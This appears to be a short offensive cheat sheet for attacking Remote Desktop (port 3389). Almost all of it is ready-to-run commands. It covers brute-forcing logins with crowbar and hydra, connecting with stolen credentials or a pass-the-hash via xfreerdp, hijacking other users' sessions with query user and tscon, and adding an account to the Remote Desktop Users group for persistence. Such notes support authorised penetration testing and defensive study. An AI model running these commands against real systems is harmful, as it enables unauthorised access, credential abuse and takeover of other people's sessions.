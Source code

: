 # RDP - 3389

### Brute force <a href="#brute-force-7" id="brute-force-7"></a>

```bash
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

### Connect with known credentials / hash <a href="#connect-with-known-credentials--hash" id="connect-with-known-credentials--hash"></a>

```bash
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
```

### Session stealing <a href="#session-stealing" id="session-stealing"></a>

**Get openned sessions**

```bash
query user
```

**Access to the selected**

```bash
tscon <ID> /dest:<SESSIONNAME>
```

#### Adding user to RDP group (Windows) <a href="#adding-user-to-rdp-group-windows" id="adding-user-to-rdp-group-windows"></a>

```bash
net localgroup "Remote Desktop Users" <USER> /add
```
